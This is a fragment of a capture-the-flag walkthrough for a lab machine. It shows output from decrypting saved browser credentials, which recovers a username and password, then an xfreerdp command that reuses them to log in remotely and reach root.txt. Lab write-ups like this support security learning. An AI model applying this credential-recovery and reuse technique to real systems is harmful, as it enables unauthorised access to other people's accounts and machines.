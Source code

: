 ````
   OCTETSTRING b'22daf82df08cfd8aa7692b00721f870688749d57b09cb1965dde5c353589dd5d'
 }
clearText b'86a15457f119f862f8296e4f2f6b97d9b6b6e9cb7a3204760808080808080808'
decrypting login/password pairs
   https://creds.com:b'mayor',b'8CL7O1N78MdrCIsV'


```



Then I can RDP with these creds.

```
xfreerdp /u:mayor /p:8CL7O1N78MdrCIsV /cert:ignore /v:10.10.137.168 /workarea

```


and get root.txt


![image](https://user-images.githubusercontent.com/83407557/185841309-147a1953-0eaf-48e1-9e0b-fa4a4e2b7bac.png)
